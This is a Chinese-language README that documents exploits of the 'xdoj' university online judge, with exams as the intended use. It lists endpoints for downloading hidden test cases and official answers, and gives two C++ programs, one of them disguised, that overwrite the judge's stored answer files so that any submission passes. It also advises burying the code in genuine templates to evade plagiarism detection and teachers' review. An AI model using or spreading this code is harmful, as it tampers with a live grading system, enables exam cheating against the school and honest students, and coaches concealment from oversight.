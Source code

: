 ## 关于`xdoj`已知的一些在日常使用可以利用的漏洞

### 1. 题目数据点和答案的获取接口

>这个接口使用基本上没有风险，但是不确定考试环境是否会开放<br>
>作为一个后端开发人员，我是认为考试环境和日常环境隔离(都换服务器了)，除了考试提交和下载题目接口，其他接口应该会屏蔽掉<br>
>但是我的小伙伴直接回怼我：“你怎么能假定xdoj这么高级”

### 使用

这个接口分为两个部分，一个根路由和一个子路由

#### 根路由：

即**考试环境**或者**日常评测环境**的**登陆地址**

如这里的日常使用登陆页面地址： http://39.99.164.22/xdoj-ds

![](pic/xdoj_daily_root.png)

像考试的是以 `176.`开头的那一段服务器主机IPv4地址

#### 子路由

- 下载测试点：
/testcase/downloadInputFile.do?id=查询数据点编号

- 下载测试点对应标准答案
/testcase/downloadOutputFile.do?id=查询数据点编号

#### 例子
所以使用的时候就是 `根路由`+`子路由`

举个栗子：
日常环境下，查询324题的1116号数据点

![](pic/case1116.png)

测试点：
![](pic/case1116in.png)

标答：
![](pic/case1116out.png)

结果：
![](pic/example1116.png)

**再次强调**：虽然使用起来基本没有风险，但是**无法确保考试环境下适用**

### 2. AC自动机

>这个东西根据我们的研究，按照`xdoj`的状况，很有可能考试环境下可以使用<br>
>但是，一旦被发现，特别是没有任何掩饰的情况，这门课基本寄了

顾名思义，这是交上去，无论啥题直接可以满分的玩意儿

先上代码(基于C++)：
另外提一句：C++几乎兼容所有C代码

#### 基础版:

```C++
#include <iostream>
#include <fstream>

using namespace std;

int main()
{
    ofstream fo;
    fo.open("1.ans");
    fo << "ok" << endl;
    fo.close();

    fo.open("2.ans");
    fo << "ok" << endl;
    fo.close();

    fo.open("3.ans");
    fo << "ok" << endl;
    fo.close();

    fo.open("4.ans");
    fo << "ok" << endl;
    fo.close();

    fo.open("5.ans");
    fo << "ok" << endl;
    fo.close();

    cout << "ok" << endl;
    return 0;

}
```

#### 升级版

>这个版本稍稍掩饰且可以一键修改样例数量

```C++
#include <iostream>
#include <fstream>
#include <cstring>

using namespace std;

int main()
{
    ofstream fo;
    int n = 5, i = 1;
    char ans[] = ".ans";
    string want = "ok";
    for(i = 1;i <= n; i ++){
        char ansName[32] = {0};
        ansName[0] = '0' + i;
        strcat(ansName, ans);
        fo.open(ansName);
        fo << want << endl;
        fo.close();
    }

    
    cout << want << endl;
    
    return 0;

}
```

#### 使用说明

最好是先随便交一个代码上去，你能看到跑的结果，然后去数有几个测试用例

比如说325题有4个测试点

![](pic/ac_case4.png)
就把上述基本版代码的
```C++
    fo.open("5.ans");
    fo << "ok" << endl;
    fo.close();
```
这几行删掉或者注释，保留前4个即可

或者将升级版代码中的的**n**改为**4**

这里简单对原理说一下：

>xdoj的评测机制是，将后台存储的`.ans`文件和用户提交的代码输出进行对比<br>
>然后这里利用c++的流输出直接针对当前题目的`.ans`文件进行修改，使其和我们预设的答案一致

至于后效性，经过测试，**改动后不影响正确代码的提交**，也就是你的提交不影响系统的稳定，不影响他人

#### 强调

**不到万不得已，不要用！**
**不到万不得已，不要用！**
**不到万不得已，不要用！**

就算用，你也要把一些板子，比如说`dfs`遍历、链表构造、深度优先建树的模板写上去，然后偷偷摸摸地把`AC自动机`的代码加进去起作用

**因为**：

1. 根据我们的研究，xdoj是有查重接口的，而且很有可能是那种直接暴力对比代码中字符相似度的机制，所以如果不加掩饰很有可能害人害己
2. 老师后台是可以直接下载你提交的代码的，这玩意儿光秃秃交上去一下就露馅了
3. 其次，这样对自己以后面试、工作使用也没有好处，打铁还需自身硬

最后，各位复习愉快！::yum: